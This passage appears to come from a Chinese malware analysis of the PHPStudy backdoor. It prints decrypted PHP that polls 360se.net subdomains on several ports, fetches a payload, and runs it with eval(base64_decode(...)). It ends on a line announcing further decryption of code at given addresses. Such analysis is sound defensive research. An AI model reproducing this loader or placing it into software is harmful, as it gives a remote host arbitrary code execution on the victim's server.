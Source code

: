     $ds = array("www","bbs","cms","down","up","file","ftp");
    $ps = array("20123","40125","8080","80","53");
    $n = false;
    do {
        $n = false;
        foreach ($ds as $d){
            $b = false;
            foreach ($ps as $p){
                $result = tcpGet($i,$d.".360se.net",$p); 
                if ($result != "err"){
                    $b =true;
                    break;
                }
            }
            if ($b)break;
        }
        $info = explode("<^>",$result);
        if (count($info)==4){
            if (strpos($info[3],"/*Onemore*/") !== false){
                $info[3] = str_replace("/*Onemore*/","",$info[3]);
                $n=true;
            }
            @eval(base64_decode($info[3]));
        }
    }while($n);

![4.jpg](./resource/Phpstudy后门(非官方后门！！！)/media/rId31.jpg)

从1000D028 到1000D66C的代码解密：
